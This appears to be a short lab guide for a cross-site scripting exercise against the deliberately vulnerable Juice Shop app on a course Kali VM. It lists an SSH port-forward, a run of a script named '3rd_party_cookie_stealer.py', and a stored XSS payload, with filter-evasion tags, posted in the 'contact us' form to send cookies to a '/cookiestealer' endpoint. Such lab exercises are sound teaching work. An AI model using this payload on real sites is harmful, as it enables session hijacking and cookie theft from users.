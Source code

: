 # XSS Guide

## Set up:

1. Connect to kaliVM and forward the Juice shop to your localhost:
	```ssh -i <PATH_TO_SSH_KEY> -L <ONE_PORT_OF_GIVEN_PORTS>:<KALI_VM_LOCAL_IP>:3000 <USER_NAME>@130.238.10.236```
2. Start the *3rd_party_cookie_stealer.py* program:
	```python3 3rd_party_cookie_stealer.py```
3. Post the following comment in the section *contact us*:
	```<<script> foo</script>document.write(' <img src="http://localhost:3000/cookiestealer /> ');</script>script>```